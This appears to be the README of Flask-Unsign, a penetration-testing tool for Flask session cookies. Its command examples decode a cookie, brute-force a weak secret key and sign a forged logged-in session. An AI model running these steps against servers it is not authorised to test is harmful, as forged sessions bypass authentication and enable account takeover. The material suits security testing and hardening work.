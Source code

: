 # Flask Unsign
[![Build Status](https://travis-ci.com/Paradoxis/Flask-Unsign.svg?branch=master)](https://travis-ci.com/Paradoxis/Flask-Unsign)
[![PyPI version](https://badge.fury.io/py/flask-unsign.svg)](https://badge.fury.io/py/flask-unsign)
[![codecov](https://codecov.io/gh/Paradoxis/Flask-Unsign/branch/master/graph/badge.svg)](https://codecov.io/gh/Paradoxis/Flask-Unsign)

Command line tool to fetch, decode, brute-force and craft session cookies of a Flask  application by guessing secret keys.
For the standalone wordlist component, please visit the [flask-unsign-wordlist](https://github.com/Paradoxis/Flask-Unsign-Wordlist) repository.

## Requirements
* Python 3.6+

## Installation
To install the application, simply use pip:

```
$ pip3 install flask-unsign[wordlist]
```

If you only want to install the core code, omit the `[wordlist]` suffix:

``` 
$ pip3 install flask-unsign
```

To install the tool for development purposes, run the following command (after downloading a copy):

```
$ pip3 install -e .[test]
```

## Usage

To get an overview of all possible options, simply call flask-unsign without 
any arguments like so:

``` 
$ flask-unsign
```

### Obtaining & Decoding Session Cookies
Due to the fact that Flask cookies are **signed** and **not encrypted**, it's 
possible to locally decode the session data. For this, you can use the `--decode` 
argument.

Session cookies can be obtained by inspecting your HTTP requests using a proxy 
like  Burp Proxy, using your browser's network inspector or using a browser 
extension to view/change your cookies. By default, Flask uses the session name
`"session"`. 

```
$ flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
{'logged_in': False}
```

You can also use Flask-Unsign's automatic session grabbing functionality by 
passing the `--server` argument, instead of the `--cookie` argument. *Do note 
however, **that not all web pages might return a session**, so be sure to pass an
url which does.*

``` 
$ flask-unsign --decode --server 'https://www.example.com/login'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8
{'logged_in': False}
```

### Unsigning (Brute Forcing Secret Keys)
After obtaining a sample session cookie, you'll be able to attempt to brute-force 
the server's secret key. If you're lucky, this might be set to something easy to 
guess, or if it's been found online, it might be in one of your wordlists. For 
this, you can use the `--unsign` argument.

``` 
$ flask-unsign --unsign --cookie < cookie.txt
[*] Session decodes to: {'logged_in': False}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 351 attempts
'CHANGEME'
```

### Signing (Session Manipulation)
Once you've obtained the server's secret key, you'll be able to craft your own 
custom session data. For this, you can use the `--sign` argument.

``` 
$ flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'
eyJsb2dnZWRfaW4iOnRydWV9.XDuW-g.cPCkFmmeB7qNIcN-ReiN72r0hvU
``` 

## Troubleshooting

* **Installing the program results in an error**
    * You might be using the wrong `pip` binary, try using
      the following command: `python3.6 -m pip install flask-unsign`
* **I found a secret key, but my crafted sessions don't work!**
    * It might be possible that your target server uses an older version of 
      [itsdangerous](https://github.com/pallets/itsdangerous). Due to 
      [an issue](https://github.com/pallets/itsdangerous/issues/46) with timed 
      sessions, the timestamp generation algorithm was changed. 
      To generate an older signature, try using the `--legacy` option.
* **My wordlist doesn't work**
    * Wordlists expect to be newline delimited 
      [python strings](https://docs.python.org/3/library/stdtypes.html#str) 
      (meaning you need to encapsulate them in quotes), this is so that 
      binary strings can easily be stored in a newline format. If you don't want 
      this, you can disable this feature by passing the `--no-literal-eval` 
      argument.


## How it works
If you're wondering how exactly this works, refer to my 
[blog post](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce) 
which explains this in great detail, including a guide on how to protect your own server from this attack.

## License
MIT License

Copyright (c) 2021 Luke Paris (Paradoxis)

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
